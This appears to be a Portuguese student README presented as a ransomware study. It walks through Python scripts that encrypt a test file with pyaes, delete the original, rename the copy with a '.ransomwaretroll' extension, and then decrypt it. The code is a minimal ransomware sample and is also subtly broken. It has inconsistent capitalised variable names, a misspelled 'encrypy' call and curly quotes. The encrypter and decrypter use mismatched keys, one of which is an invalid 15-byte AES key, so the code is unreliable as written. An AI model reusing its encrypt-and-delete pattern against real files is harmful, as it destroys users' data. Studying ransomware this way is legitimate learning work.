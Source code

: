 # Estudo de Rasomware, encriptografando e descriptografando com Python

### Ferramentas

- Kali Linux
- Pyaes


### Configuração do Arquivo Txt e do código Python no Kali Linux
Criar os Arquivos com o comando nano (usado para escrever/editar dentro de um arquivo) ou touch (usado para criar um arquivo) no terminal do Linux depois que estiver dentro da pasta “projeto-ransomware"



- encrypter.py

- decrypter.py

- teste.txt



### 2º ETAPA
Insira inforamções no documento ou identifique algum que já exista.

- Salvar com o ctrl + o;
- Depois de Enter;
- Depois Ctrl + x para salvar.


### 3º ETAPA
Verifique se possui as permissões para instalar a bibliteca Python com o comando:

- pip install pyaes

Depois prossiga com os comandos

- Import os
- Import pyaes


 
### Código para ecrypter.txt:

 
File­_name =‘teste.txt’

File = open(file_name, ‘rb’)

File_data = file.read()

File.close()

os.remove(file_name)

Key = b“testeransomware”

Aes = pyaes.AESModeOfOperationCTR(key)

Crypto_data = aes.encrypy(file_data)

new_file = file_name + ‘.ransomwaretroll'

new_file = open(f‘{new_file}’,‘wb’)

new_file.write(crypto_data)

new_file.close()

 

### Código para decrypter.txt:

file_name = ‘teste.txt.ransomwaretroll’

file = open(file_name, ‘rb’)

file_data = file.read()

file.close()

key = b‘testeransomwares’

aes = pyaes.AESModeOfOperationCTR(key)

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = ‘teste.txt’

new_file = open(f'{new_file}', ‘wb’)

new_file.write(decrypt_data)

new_file.close()

 
## ETAPA FINAL
Realizar os comandos de criptografar, listar arquivos (para ver o resultado), descriptografar abaixo e listar arquivos novamente (para ver o resultado final)

python encrypter.py

ls

python decrypter.py

ls

### Resutados anexados na pasta.
